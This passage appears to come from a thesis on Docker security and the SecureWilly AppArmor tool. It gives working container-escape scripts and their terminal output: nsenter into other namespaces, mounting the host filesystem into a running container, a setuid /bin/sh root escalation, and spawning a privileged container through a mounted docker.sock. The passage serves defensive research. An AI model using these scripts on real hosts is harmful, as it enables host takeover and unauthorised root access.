We use a debian image as a base image and run a bash shell as follows:

\begin{lstlisting}[style=dockercommands]
$ docker run --security-opt "apparmor=attacked_profile" --rm -it debian:latest /bin/bash
\end{lstlisting}

In order to make the example more obvious we may touch a new file in the root's directory and execute ls command in the container we just created:

\begin{lstlisting}[style=terminal]
root@97fafdf8604a:/# touch ThisIsTheAttackingContainer
root@97fafdf8604a:/# ls
ThisIsTheAttackingContainer  dev     lib	  mnt   root  srv usr
bin                            etc   lib64  opt   run   sys var
boot                           home  media  proc  sbin  tmp
\end{lstlisting}

The AppArmor profile that we used in the container above, allows handling container's filesystem and ptrace operations with read and trace permissions only done by others towards our process.

\begin{lstlisting}[style=Dockerfile, caption={AppArmor profile attacked\_profile}]
#include <tunables/global>

profile attacked_profile flags=(attach_disconnected,mediate_deleted) {
        file,  #This rule is needed so that I can work with files (create files/directories, copy, etc)
        #Allows nsenter
        ptrace (readby,tracedby),
}
\end{lstlisting}

Make sure to load the profile before running the container with the commands below:

\begin{lstlisting}[style=terminal]
$ sudo cp attacked_profile /etc/apparmor.d
$ sudo apparmor_parser -r -W /etc/apparmor.d/attacked_profile
\end{lstlisting}

In accordance with the breaking out to host instance, the attacker aims to execute some commands in target process's root directory.
In the following shell script, the attacker uses the docker client to find the pid of the target container and commits the attack:

\begin{lstlisting}[style=shellscript, caption={2\_run\_attacker\_to\_container.sh}]
#!/bin/sh

#List all running containers and keep the one including 'debian'
docker ps | grep debian > dockerps
#Keep the container's id
cut -d' ' -f1 dockerps > containerid
container_id=$(cat containerid)
#Find the pid of the container's process
docker inspect --format {{.State.Pid}} ${container_id} > PID
container_pid=$(cat PID)

#List contents of container's root directory
echo "====== ls / ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_ADMIN debian:latest nsenter --target ${container_pid} --mount ls /

#Touch a new file in container's root directory
echo "====== touch HelloFromTheOtherSide ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_ADMIN debian:latest nsenter --target ${container_pid} --mount touch HelloFromTheOtherSide

#Add a new user in the container
echo "====== useradd hacked ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_ADMIN debian:latest nsenter --target ${container_pid} --mount /usr/sbin/useradd hacked

#Create a shell in the container
echo "====== /bin/bash ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_ADMIN debian:latest nsenter --target ${container_pid} --mount /bin/bash

#Clear files
rm PID
rm dockerps
rm containerid
\end{lstlisting}

The docker run command executed above have the same flags as in the attack to host, except for the capability SYS\_PTRACE which is no longer needed as we are targeting PIDs different from the PID 1. 

Moreover, after the attacker\_profile is loaded, it is used in order to allow the attack, exactly like the one used in host's attack except for the rule capability sys\_ptrace.

\begin{lstlisting}[style=Dockerfile, caption={AppArmor profile attacker\_profile}]
#include <tunables/global>

profile attacker_profile flags=(attach_disconnected,mediate_deleted) {
        capability sys_admin,
        file,  #This rule is needed so that I can work with files (create files/directories, copy, etc)
        capability sys_chroot,
        ptrace (read,trace),
}
\end{lstlisting}
	
Below, you can see the output of the script the attacker executed:

\begin{lstlisting}[style=terminal]
$ ./2_run_attacker_to_container.sh 
====== ls / ======
ThisIsTheAttackingContainer  dev     lib	  mnt   root  srv usr
bin                            etc   lib64  opt   run   sys var
boot                           home  media  proc  sbin  tmp
====== touch HelloFromTheOtherSide ======
====== useradd hacked ======
useradd: failure while writing changes to /etc/shadow
====== /bin/bash ======
root@fdeb9f62ec00:/# ls
HelloFromTheOtherSide          bin   dev	home  lib64  mnt  proc	run   srv  tmp	var
ThisIsTheAttackingContainer  boot    etc	lib   media  opt  root	sbin  sys  usr
root@fdeb9f62ec00:/# ls -l HelloFromTheOtherSide 
-rw-r--r-- 1 root root 0 Jan 31 01:02 HelloFromTheOtherSide
root@fdeb9f62ec00:/# cut -d: -f1 /etc/passwd | grep hacked
%hacked%
\end{lstlisting}

As expected, the attacker has succeeded again. He was able to list target's root directory contents, touch a new file and add a new user called hacked and confirmed all of these actions through the bash shell which was created and he may as well commit any attack inside target's mount namespace.
\\
\begin{mdframed}[backgroundcolor=navajowhite]
To sum up, an attacker is capable to perform a breakout of his container with a small subset of privileges. This subset includes \textbf{running as root}, granting capability SYS\_ADMIN (and SYS\_PTRACE for PID 1) and an AppArmor profile which allows \textbf{capabilities SYS\_ADMIN, SYS\_CHROOT (SYS\_PTRACE for PID 1)} and \textbf{ptrace read and trace operations}. 
Moreover, an AppArmor profile is needed for the target container which allows \textbf{ptrace readby and tracedby operations}.
\end{mdframed}

\subsubsection{Mounting host's filesystem into running container}
Let's see a more complex example of using nsenter to attack host. 

In this example an attacker aims to mount host's filesystem to a running container. As we explained in chapter Static Analysis, docker does not allow mounting on a running container. You can only create a mount volume at the phase of the creation of a container. This is because containers are supposed to be ephemeral so it is recommended to destroy the container and then recreate it to update the volume. 

However, there are some hacks that let the host interfere with the container and one of them is the container's filesystem layers hack presented below. The attacker in our example, achieves to create a mount on a running container through its filesystem layers which exist on host's filesystem.\cite{mountonrunning}

First, the container in which the host's filesystem will be mounted is started with the command below:

\begin{lstlisting}[style=dockercommands]
$ docker run --rm --name attacked_nsenter --security-opt "apparmor=attacked_container_profile" -t -i ubuntu:latest /bin/bash
\end{lstlisting}

As you can see no volumes are mounted at the docker run command. The mounting will be done after the container is up.

The profile that was used for this container is the following:

\begin{lstlisting}[style=Dockerfile, caption={AppArmor profile attacked\_container\_profile}]
#include <tunables/global>

profile attacked_container_profile flags=(attach_disconnected,mediate_deleted) {
        file,  #This rule is needed so that I can work with files (create files/directories, copy, etc)
        #Allow the attack
        ptrace (readby, tracedby),
}
\end{lstlisting}

This profile allows only the syscall ptrace to be used by others towards this container, so that the container is traceable.

The next thing that should be done is running a container that will commit nsenter to host's mount and pid namespaces and execute a shell inside host:

\begin{lstlisting}[style=dockercommands]
$ docker run --device /dev/vda1 -v /var/run/docker.sock:/var/run/docker.sock --security-opt "apparmor=attackerns_profile" --pid=host --cap-add SYS_ADMIN --cap-add SYS_CHROOT --cap-add SYS_PTRACE --rm -it debian:latest nsenter --target 1 --mount --pid /bin/bash
\end{lstlisting}

The profile that was used for this container is given below:

\begin{lstlisting}[style=Dockerfile, caption={AppArmor profile attackerns\_profile}]
#include <tunables/global>

profile attackerns_profile flags=(audit,attach_disconnected,mediate_deleted) {
        file,  #This rule is needed so that I can work with files (create files/directories, copy, etc)
        capability sys_chroot, #needed for nsenter
        capability sys_admin, #needed for nsenter
        ptrace (read,trace), #needed for nsenter to ptrace pid
        capability sys_ptrace, #needed for nsenter to ptrace pid
        mount, #needed for attack to host (script 3) to do the mount bind
        umount, #Needed for part 4 (script 7)
        capability dac_override, #needed for attack to host (script 3)
        capability mknod, #needed for part 1 (script 4)
}
\end{lstlisting}

This profile allows the ptrace system call to be used towards others, allows any mount and umount without any conditions, mounting anywhere with any options and lastly, allows the addition of several capabilities which will be explained sequentially as we encounter each of them. Some of the capabilities are already explained in previous examples: Capabilities sys\_chroot, sys\_admin and sys\_ptrace
are required due to the use of nsenter which aims to enter host.

Afterwards, the attacker inside the container will get into the attacking directory and commit the attack by executing a series of scripts. We divided the larger script of the attack into smaller pieces, each of which solves one part of the overall task:

\begin{lstlisting}[style=dockercommands]
# cd /home/ubuntu/SecureWilly/Attacks/Nsenter/Mount_hosts_filesystem
# ./3_attack_to_host.sh
# ./4_attack_to_container_part1_mount.sh
# ./5_attack_to_container_part2_device.sh
# ./6_attack_to_container_part3_mount.sh
# ./7_attack_to_container_part4_device.sh
\end{lstlisting}

Below we explain the scripts used for this attack one by one, matching them with the capabilities provided by the AppArmor profile.
\\

The first script, 3\_attack\_to\_host.sh, targets the host's side. It creates a directory inside the running container through its filesystem layers on host.

Docker containers use a layered filesystem. When you use a base image - FROM command in Dockerfile - a new layer is created on top of the base image's layers.

The new layer can be found in host's filesystem, under the directory /var/lib/docker/aufs/diff and it shows only the changes made on the base image's layer - what was added, deleted, overwritten. As a result, a total re-encoding of the entire contents of the filesystem can be omitted and only this top layer has to be encoded. At the built phase the container merges these layers into a single coherent view. The file the attacker creates on host inside the diff layer of the running container, is directly visible inside the container. This action is definitely discouraged to commit as we're modifying lower layers, which is equivalent to directly modifying the image and that constitutes an anti-pattern.

Then, a directory is also created in host's filesystem - remember that although the attacker runs his own container, he had managed to get in host's filesystem via nsenter - and a bind mount is done between this new directory and the one created in container's diff layer. The mount is visible to the host, however nothing is yet configured to the container. This happens because the container does not share the same mount namespace with host. Thus, a bind-mount created outside the container is not visible inside the container and directory doot inside the container is still empty.

Later in this script, the attacker executes some commands on host in order to gain more information about the mount made on host and the directory that he intends to mount to the container - restricted\_area directory.

This script's task requires the capability dac\_override so that it is possible for the attacker to bypass any file permissions and be able to create directories and files. Moreover, the mount rule added in AppArmor profile is required for the tasks that include mount commands, as in the following script.

\begin{lstlisting}[style=shellscript, caption={3\_attack\_to\_host.sh}]
#!/bin/sh

#Attacking directory where attacker's scripts are
attack="/home/ubuntu/SecureWilly/Attacks/Nsenter/Mount_hosts_filesystem"

#Attacker's container is using nsenter to enter host's filesystem so from now on we will refer to attacker's container namespaces as host's namespaces - especially mount namespace and host's filesystem.

#Layers in container's filesystem
ls /var/lib/docker/aufs/diff | grep -v removing | grep -v init
#Choose one and create a dir there
#Which one? Check in container's root directory to see if doot dir appears. If not run again this script, choosing another layer
echo "Please give layer's id:"
read layer

#If doot does not exist already in the attacked container's / dir, create new directory doot
if [ ! -d /var/lib/docker/aufs/diff/${layer}/doot ]; then
        mkdir /var/lib/docker/aufs/diff/${layer}/doot
fi

#In host's filesystem, if restricted_area does not already exist, create dir restricted_area
if [ ! -d ${attack}/restricted_area ]; then
        mkdir ${attack}/restricted_area
fi

#Create a file in host's restricted_area
touch ${attack}/restricted_area/HellloFromTheOtherSide

#Then mount a host directory to container's doot directory
mount -o bind ${attack}/restricted_area /var/lib/docker/aufs/diff/${layer}/doot

#Find mountpoint of restricted_area's filesystem and which filesystem is that - special device that needs to be created
df ${attack}/restricted_area | grep / > fs_of_restricted_area #We use grep / to omit first line with titles of columns
#Keep the filesystem/device
cut -d' ' -f1 fs_of_restricted_area > sdev_of_fs
sdev_fs=$(cat sdev_of_fs)
#ls -l to find the real device not the mapping that we got at /dev/disk/by-uuid
ls -l ${sdev_fs} > sdev_of_fs1
awk '{ print $NF }' sdev_of_fs1 > sdev_of_fs2
cut -d'/' -f3 sdev_of_fs2 > sdev_of_fs3
mv sdev_of_fs3 sdev_of_fs
#Keep the path where the targeting filesystem is mounted at
cut -d' ' -f8 fs_of_restricted_area > mntpoint_of_fs
mnt_of_fs=$(cat mntpoint_of_fs)
cat /proc/self/mountinfo > mountinfo
#Find the subdirectory of the filesystem that is mounted at mntpoint_of_fs
awk -v mnt="${mnt_of_fs}" '{if ($5==mnt) {print $3}}' mountinfo > mntinfo
#Find the major and minor number of the device that needs to be created
cut -d':' -f1 mntinfo > major_num
cut -d':' -f2 mntinfo > minor_num

#Clear files
rm fs_of_restricted_area
rm mountinfo
rm mntinfo
rm mntpoint_of_fs
\end{lstlisting}

The second script that is run, 4\_attack\_to\_container\_part1\_mount.sh, is the one which lets the attack to the container begin. It configures the attack, by detecting the running container that will be attacked, finding its container id and its process's PID. The attacker here uses the docker client to detect the containers running on host. This is possible because of the mount of docker.sock to attacker's container at runtime - more information about the docker socket on section \textit{Access to Docker Daemon}. The part of the attack to the container in this script consists of the creation of a special device and a directory inside the container. The device that is created in the container is similar to one on the host - same type, major and minor number which we extracted with the previous script. In script 3\_attack\_to\_host.sh we found out the host's filesystem that contains the directory restricted\_area. We then found out the path on which that filesystem is mounted at and which subdirectory of that filesystem is mounted at the same path. That subdirectory is the identical device of the one created on the container. The purpose of this device's creation will be explained on the next script.

What makes it possible for the attacker to see host's devices is the flag --device /dev/vda1 - we used this flag in docker run a priori but in fact that requires a pre-research about which device will be used at script 3\_attack\_to\_host.sh on behalf of the attacker. Moreover, the creation of the device on the container requires capability mknod which is allowed by the AppArmor profile enforced.

\begin{lstlisting}[style=bashscript, caption={4\_attack\_to\_container\_part1\_mount.sh}]
#!/bin/bash

#Attacking directory where attacker's scripts are
attack="/home/ubuntu/SecureWilly/Attacks/Nsenter/Mount_hosts_filesystem"

#List all running containers and keep the one including the name attacked_nsenter
docker ps | grep attacked_nsenter > dockerps
#Keep the container's id
cut -d' ' -f1 dockerps > containerid
container_id=$(cat containerid)
#Find the pid of the container's process
docker inspect --format {{.State.Pid}} ${container_id} > PID
container_pid=$(cat PID)

#Files from script 3_attack_to_host.sh
major=$(cat major_num)
minor=$(cat minor_num)
dev="/dev/$(cat sdev_of_fs)"

#Done by attacker inside host
#Attack the container using nsenter
#Create a special device
nsenter --target ${container_pid} --mount --pid mknod --mode 0600 ${dev} b ${major} ${minor}
#Create a directory - /tmpmount
nsenter --target ${container_pid} --mount --pid mkdir -p /tmpmount
\end{lstlisting}

The next script, 5\_attack\_to\_container\_part2\_device.sh, commits one single action: mounts the host's special device to directory tmpmount. 

This action mounts the entire host's filesystem to container's directory tmpmount. Before, we mentioned that any bind-mount created outside the container is not visible inside the container. Therefore, the attacker needs to do the bind-mount inside container's namespaces. If he tries to do it directly, as it is expected, he gets permission denied since mounting is not allowed after the runtime.

Then how would it be possible to make the mount visible to the container? This can be achieved by using the nsenter tool. So, the attacker commits nsenter to target's process and now that the mount is done inside container's mount namespace, if we execute ls /tmpmount we will see host's root directory contents.

The mount has succeeded and the entire host's filesystem is now visible to the container.

\begin{lstlisting}[style=bashscript, caption={5\_attack\_to\_container\_part2\_device.sh}]
#!/bin/bash

#Attacking directory where attacker's scripts are
attack="/home/ubuntu/SecureWilly/Attacks/Nsenter/Mount_hosts_filesystem"

#Files created on previous scripts
container_pid=$(cat PID)
dev="/dev/$(cat sdev_of_fs)"

#Mounting the new device to tmpmount directory
nsenter --target ${container_pid} --mount --pid -- mount ${dev} /tmpmount
\end{lstlisting}

Executing ls /tmpmount in the attacked container before and after the attacker runs 5\_attack\_to\_container\_part2\_device.sh :

\begin{lstlisting}[style=dockercommands]
root@f785aa219433:/# ls tmpmount/
root@f785aa219433:/# ls tmpmount/
bin   home            lib64       opt   sbin  usr
boot  initrd.img      lost+found  proc  srv   var
dev   initrd.img.old  media       root  sys   vmlinuz
etc   lib             mnt         run   tmp   vmlinuz.old
\end{lstlisting}


One more action is left for the attacker to make, in order to mount host's directory restricted\_area to doot's directory. In script 6\_attack\_to\_container\_part3\_mount.sh the attacker bind-mounts the directory restricted\_area to doot directory. Since we have mounted the entire host's filesystem to the container, it is trivial to mount a specific directory. Afterwards, the attack has been completed and the attacker can make use of the mount he has achieved.

\begin{lstlisting}[style=bashscript, caption={6\_attack\_to\_container\_part3\_mount.sh}]
#!/bin/bash

#Attacking directory where attacker's scripts are
attack="/home/ubuntu/SecureWilly/Attacks/Nsenter/Mount_hosts_filesystem"

#File created on previous script
container_pid=$(cat PID)

#Bind mounting of restricted_area to doot
nsenter --target ${container_pid} --mount --pid -- mount -o bind /tmpmount/${attack}/restricted_area /doot
\end{lstlisting}

Executing ls /tmpmount in the attacked container before and after the attacker runs 6\_attack\_to\_container\_part3\_mount.sh :

\begin{lstlisting}[style=dockercommands]
root@f785aa219433:/# ls doot/
root@f785aa219433:/# ls doot/
HellloFromTheOtherSide
\end{lstlisting}

Lastly, we run script 7\_attack\_to\_container\_part4\_device.sh to clean up after ourselves, unmounting the whole host filesystem. The bind-mount is unaffected if we execute only the first umount command. If we want to clean up our footprints totally we can execute the second umount command, as well. This script requires the umount rule which we encountered in the AppArmor profile.

\begin{lstlisting}[style=bashscript, caption={7\_attack\_to\_container\_part4\_device.sh}]
#!/bin/bash

#Attacking directory where attacker's scripts are
attack="/home/ubuntu/SecureWilly/Attacks/Nsenter/Mount_hosts_filesystem"

#Files created on previous scripts
container_pid=$(cat PID)

#Umount host's directory from tmpmount
nsenter --target ${container_pid} --mount --pid -- umount /tmpmount
#Umount host's restricted_area from doot when the attack is over
nsenter --target ${container_pid} --mount --pid -- umount /doot

#Clear files
rm PID
rm dockerps
rm containerid
rm major_num
rm minor_num
rm sdev_of_fs*
\end{lstlisting}

\subsection{SecureWilly vs Nsenter attacks}
In the reverse engineering phase of developping SecureWilly, we first examined the attacker's AppArmor profile. We had two options to stop the attacks we examined in the previous section through the profile: deny capabilities or deny ptrace operations. 

Denying capabilities was not the right choice because it would restrict the user more than preventing some instances of attacks. For instance, SYS\_ADMIN capability could satisfy other purposes except for an attack so we could not deny it by default, and the same approach goes with any other capability needed on each instance.

Denying ptrace read and trace operations could not constitute a solution either as it limited user's abilities for tracing the processes inside his container, which does not cross the lines of isolation.

Therefore, an attacking container which uses nsenter for a container breakout could not be stopped by SecureWilly. Nonetheless, SecureWilly can be used by a container to protect itself from an attack like that, either the attack is minimal or it is a more complex one.

We considered that, on the attacked side, the only rule that could be extracted in order to preserve isolation in a generic way was denying the ptrace readby and tracedby operations in target's container profile. That rule protects a container from any attacker who tries to break into it, because they cannot trace it and enter its namespaces.
 
Thus, we added in the static part one more rule: \textbf{deny ptrace (readby, tracedby)}

\begin{mdframed}[backgroundcolor=tipcolor]
\textbf{Tip}: A very similar to nsenter tool, is the nsinit tool. Docker offers its own library for managing containers called libcontainer and the tool nsinit belongs to it. It allows the user direct access to the linux namespace and cgroup kernel features. We have not used it in our research but it should be examined as future work.
\end{mdframed}

\section{Access to Docker Deamon}
\subsection{Who can use Docker?}
A user who has access to the docker daemon has the ability to use the docker client - also known as docker CLI - and execute docker commands. This means that this user could manipulate the running containers, enter their environment, learn information about them or even stop them, and create new containers. Consequently, users with access to the docker command line are supposed to be quite powerful and this is the reason why the docker CLI is restricted to root and to members of docker group.

Docker group is a unix set of users which is created as part of Docker installation and is set to be the owner group in file permissions of the unix file socket /var/run/docker.sock. \cite{dockergroup}

There are several risks deriving from adding users to docker group, so we have to be very mindful about who is going to be a member of it.

\subsection{Full administration on Docker}
To begin with, let's see what an attacker who is a member of the docker group on host could do to a running container, besides stopping it which is a malicious action itself. 

Suppose there is a running container on host which uses a docker image that is configured to be run by a non-root user. The attacker described before could enter the container and commit an attack. And the most interesting part is that he can do it being root inside the container. Not with nsenter tool as we examined before but with docker exec command.

\subsubsection{Docker exec}
Docker exec is the official way to get access into a running container. It is a service provided by the docker daemon that allows an additional process to be launched within an existing container. It differs from nsenter tool as nsenter doesn't enter the cgroups, and therefore evades resource limitations.
What makes docker exec a vulnerable feature is the option to run the container with a specific uid (flag -u). This means that even if the docker image is configured in Dockerfile to be run by a non-privileged user, with docker exec the image can be run with any user defined, even with root using flag -u 0. It is a fact, that if an image is configured to be run with a user different than root, having the ability to run it as root could be proven dangerous.

\subsubsection{All members of Docker Group have full access to all docker containers}
If we look at this situation from a distance, we can see the big picture: all users who belong to docker group can be supposed as root for any container. Members of docker group have full administrative access to all Docker commands, allowing them to manage all the images and containers, regardless of their origin and owner.

Docker's approach does not include admin segregation controls, where different users can be granted with different admin rights to different containers and that makes docker group a vulnerability.

The following diagram describes 'Alice' and 'Bob', two UNIX users, both members of docker group.

\begin{figure}[h!]
  \centering
   
\includegraphics[width=0.85\linewidth]{../figures/dockergroupgm.png}
   \caption{Docker Group Members on Docker Engine}
\end{figure}

Both Alice and Bob, not only have full control of their own containers, but of all docker containers running on host as well.

\subsection{User Privilege Elevation}
Being able to run a docker container as root could eventually lead in getting root on host, as we explained in section \textit{Running as root}. The example that was examined in that section - \textit{Running as root: What can an attacker do with root user?} - is representative of how a standard non-root user who is granted with membership to docker group can easily surrogate into the 'real root' account on the host, only with some host resources provided - /etc/ dir is mounted in the specific example.

Let's see another example, to have a more recent and clear picture of that vulnerability.

Suppose there is a non-root user on host who is member of the docker group and runs an ubuntu image as root, while mounting host's directory /bin/ to a directory inside the container (/attack\_bin). 

This container's image is created with the following minimal Dockerfile:
\hfill\break\hfill\break
\begin{lstlisting}[style=Dockerfile, caption={Dockerfile used for docgroup image}]
FROM ubuntu:latest
MAINTAINER Fani Dimou <fani.dimou92@gmail.com>

COPY 2_attack_inside_the_container.sh .
ENTRYPOINT /bin/bash
\end{lstlisting}

And then start the container with the following commands:
\begin{lstlisting}[style=dockercommands]
$ docker build . -t docgroup
$ docker run --rm -it -v /bin/:/attack_bin docgroup
\end{lstlisting}

The script that is copied inside the container by the attacker is given below:
\begin{lstlisting}[style=shellscript, caption={2\_attack\_inside\_the\_container.sh}]
#!/bin/sh

chown root:root /attack_bin/sh
#chmod a+s: a:all users, +s:If someone else runs the file, they will run the file as the user/group who created it.
chmod a+s /attack_bin/sh
\end{lstlisting}

The attacker runs this script inside the container and then the container may be stopped. What this script does, is changing the ownership of sh file inside the bind mounted volume /attack\_bin and then modifying its permissions by adding the setuid permission for all users. The permission setuid means set user ID upon execution. Therefore, any user who execute /bin/sh on host will run it as its owner, who, in this case, is root. And that's exactly the next step of the attacker on host:

\begin{lstlisting}[style=terminal]
$ cd /bin
$ ./sh
\end{lstlisting}

And then runs the following commands inside the shell or commit any kind of attack he desires:
\begin{lstlisting}[style=terminal]
# whoami
root
# touch /etc/HelloFromTheOtherSide
\end{lstlisting}

If we check the permissions of the new file on host we can see that its owner is root:

\begin{lstlisting}[style=terminal]
$ ls -l /etc/ | grep Hello
-rw-rw-r-- 1 root root       0 Jan 19 20:52 %Hello%FromTheOtherSide
\end{lstlisting}

This attack succeeds only by running the container as root.

Technically, it needs root because this is the only way to change the file permissions of the mounted volume /attack\_bin. When you bind-mount, Docker does not touch the permissions of the directory that it is being mounted in. Thus, a non-root user who is not the owner of host's /bin/ would not be allowed to use chown and chmod to /attack\_bin and that is why the attacker should run the container as root.

Conceptually, the attacker needs root to run the chmod command and add permission setuid to /bin/sh so that he can become root when he executes /bin/sh, otherwise he would become whoever else the owner would be.

Since the container is running as root, there is nothing an AppArmor profile can do, as chown and chmod are anyway allowed to root. This is why we omitted creating a profile in this example.

All in all, users who are members of docker group can easily escalate to root on host, on condition that they run the container as root and some host resources are provided to the container.

Unfortunately, the vulnerabilities that access to docker daemon spawns are not limited to this.

\subsection{Container Privilege Elevation}
Up to this point, we examined how a non-privileged user could become root on host through a docker container, just by being a member of docker group. In this case, the attacker uses the container to grant power by adding privileges directly to himself and commits the attack on host.

A similar elevation of privileges could happen to containers as well. A regular container could “evolve” into a very powerful container, and by powerful we are implying a container capable of taking over the host machine. Here, the attacker does not add privileges to the user but to the container through which he will commit the attack. Red Hat introduced the name super-privileged containers to describe these “powerful” containers. 

\subsubsection{Unprivileged, Privileged, Super-Privileged}
First of all, we shall explain the levels of privilege that a container can grant. 

\begin{description}[style=nextline]
\item[Unprivileged containers]
By default, containers run in unprivileged mode. By an unprivileged container, we are describing a regular container, which is highly isolated, keeping its own, contained view of namespaces and the access to host they run on is strictly limited. These containers maintain a process table, network interfaces, file systems, and IPC facilities that are separate from the host. They are allowed to use host's resources
but the range of their commands results in limited ability to interface directly with the host. Lastly, it is not possible to run Docker daemon inside them. \cite{redhatspc}

\item[Privileged containers]
Privileged containers are more powerful than unprivileged because they are capable to interfere with host on a bigger scale, but they still do not get total control of the host.

A privileged docker container is given access to all host's devices, lifting all the limitations enforced by the device cgroup controller, allows the creation of all linux devices and grants all capabilities - if not dropped manually or denied by AppArmor.

When using a privileged container, as it is expected, some security features are disabled. One of them is the user namespaces, as they are incompatible with privileged containers. The container must run in the host user namespace when running privileged mode. Another feature that is disabled is the mounting of file systems as readonly, thus any filesystem that it is mounted to the container provides all the permissions to the users.

As we described in section \textit{Kernel Capabilities}, a privileged docker container can be started by using the flag --privileged in docker run command.

\item[Super-Privileged Containers]
By the term super-privileged containers we refer to a concept introduced in Project Atomic Blogs by Red Hat, where containers are supposed to run in a specific way. \cite{troubledocker}

What could possibly make a container more privileged than the “privileged” containers? Privileged containers expose part of the host to the container but namespaces are still in the way, making some host's parts not visible to the container, such as the processes of the system, the local network, etc. The need of some containers to have access to those parts gave birth to the SPCs' concept.

The idea of Super-Privileged containers refers to a way of running certain types of containers, not to a feature that when it is enabled, a container becomes super-privileged directly. SPC is defined as a container that runs with security turned off (--privileged) and turns off one or more of the namespaces, either by using the suitable flags for the supported namespaces or by mounting host volumes for mount namespace. \cite{spcbydanwalsh}. This results in exposing more of the host operating system.
SPCs term is not a \say{standard}, it's a group of options to enable on a privileged container. 

Among those options, are the flags that disable namespaces which we discussed in section \textit{Disabling Namespaces}.

In the most privileged version, the SPC will use only the mount namespace. It should be able to run without the PID, NET, IPC or UTS namespaces, but it should bring parts of the OS or the entire root's directory into the container, using volume mounts.

The purpose of SPCs is to access, monitor, and possibly change features on the host system directly or even manipulate other containers. However, if a malicious user achieves to have such a container, then he can take control of the underlying host.
\end{description}

\subsubsection{Docker Socket}
Now let's go back to the container privilege elevation that could happen through access to docker daemon.

This action requires an almost unprivileged container in order to succeed. Flag privileged does not have to be enabled, the only caveat is that this container needs access to Docker UNIX socket /var/run/docker.sock.

/var/run/docker.sock is the UNIX socket that Docker daemon is listening to. In Linux, sockets are used to allow different processes to communicate with one another and docker.sock is used to communicate with the main Docker process. Since everything in Linux is a file, sockets are files too and thus we can share it with containers. As simple as that, with docker.sock we can have containers using the docker client.

Sharing the docker.sock is possible by running the container with one of the following volume mount options:

\begin{itemize}
\item \begin{lstlisting}[style=dockercommands]
$ docker run -v /var/run/docker.sock:/var/run/docker.sock
\end{lstlisting}
Direct access to the docker socket

\item \begin{lstlisting}[style=dockercommands]
$ docker run -v /var/run:/var/run
\end{lstlisting}
Access to /var/run directory

\item \begin{lstlisting}[style=dockercommands]
$ docker run -v /var:/var
\end{lstlisting}
Access to /var directory

\item \begin{lstlisting}[style=dockercommands]
$ docker run -v /:/host
\end{lstlisting}
Access to root file system (where docker socket is located)
\end{itemize}

As we discussed in section \textit{Disabling Namespaces: Mounting host's filesystem}, the closer we get to root's directory ( / ) in host's filesystem tree, the more exposed the host will be. Therefore, if docker.sock has to be mounted, the first command is the most preferable.
\\
 
In the following example, we will see how an unprivileged container who runs as root and has access to docker daemon can launch a super-privileged container.
The attacker runs the unprivileged container as root. \cite{hosttakeover}

The Dockerfile the attacker will use for his attack is the following:

\begin{lstlisting}[style=Dockerfile, caption={Dockerfile used for spc\_example image}]
FROM ubuntu:latest
MAINTAINER Fani Dimou <fani.dimou92@gmail.com>

#Install Docker
RUN apt-get update && apt-get install docker.io -y
#Copy the script attack inside the container
COPY spc.sh /
ENTRYPOINT /bin/bash
\end{lstlisting}

As you can see, all he needs to do is to install the docker package in his image and copy his script attack in the container. After the image is built by the previous Dockerfile, the attacking container is started as below:

\begin{lstlisting}[style=dockercommands]
$ docker build . -t spc_example
$ docker run --rm -it --security-opt "apparmor=spc_attacker" -v /var/run/docker.sock:/var/run/docker.sock spc_example
\end{lstlisting}

The profile used in the docker run command is almost plain:

\begin{lstlisting}[style=Dockerfile, caption={AppArmor profile spc\_attacker}]
#include <tunables/global>

profile spc_attacker flags=(attach_disconnected,mediate_deleted) {
        file, #This rule is needed so that I can work with files (create files/directories, copy, etc)
        signal,
}
\end{lstlisting}

This is because the container is making use only of the docker.sock, thus no capabilities or other rules are needed. If we execute ls we get the following output: 

\begin{lstlisting}[style=dockercommands]
root@e4005f120782:/# ls -l /var/run/docker.sock
srw-rw---- 1 root 999 0 Jan 22 16:04 /var/run/docker.sock
\end{lstlisting}

This informs us about the owner's UID and GID of docker.sock, which is no other than root and docker group, respectively. The reason why we can only see the numeric id of docker group and not its name is that the command is run inside the container where the group does not exist and so only the GID - 999 - is known. We can also be informed about the owner's permissions on the socket which are read, write and secure deletion and since we are root we have everything we need for the attack. Therefore, the AppArmor profile is not in a position to allow anything more for the attack. Unfortunately, this also means that we cannot use SecureWilly to protect us from such an attack.

The attacking script that will be executed inside attacker's container is given below:

\begin{lstlisting}[style=shellscript, caption={spc.sh}]
#!/bin/sh

echo "====== Running privileged container ======"
docker run --rm -it --privileged --net=host --ipc=host --uts=host --pid=host -v /:/HostsFS ubuntu
\end{lstlisting}

What happens after the container is up, is trivial; the attacker executes the script and creates a super-privileged container which has full access to the host's machine. The attacker achieves to enter the host and commit malicious actions.

\begin{lstlisting}[style=terminal]
root@e4005f120782:/# ./spc.sh
====== Running privileged container ======
root@docker-security:/# ls
HostsFS  boot  etc   lib    media  opt   root  sbin  sys  usr
bin      dev   home  lib64  mnt    proc  run   srv   tmp  var
root@docker-security:/# cd HostsFS/
root@docker-security:/HostsFS# ls
ThisIsHostsFileSystem  initrd.img.old  proc  usr
bin                      lib             root var
boot                     lib64           run   vmlinuz
dev                      lost+found      sbin  vmlinuz.old
etc                      media           srv
home                     mnt             sys
initrd.img               opt             tmp
root@docker-security:/# touch HelloFromTheOtherSide
\end{lstlisting}

Creating a file inside root's directory is just an \say{innocent} proof of the attacker's write access inside root. We can run ls from the host to verify that the attacker has succeeded:

\begin{lstlisting}[style=terminal]
ubuntu@docker-security:~/SecureWilly/Attacks/DockerSock/create_spc$ ls -l / | grep Hello
-rw-r--r--   1 root root     0 Jan 24 01:41 %Hello%FromTheOtherSide
\end{lstlisting}

As we mentioned before, in the example we just executed, an AppArmor profile is not able to stop the attack. 

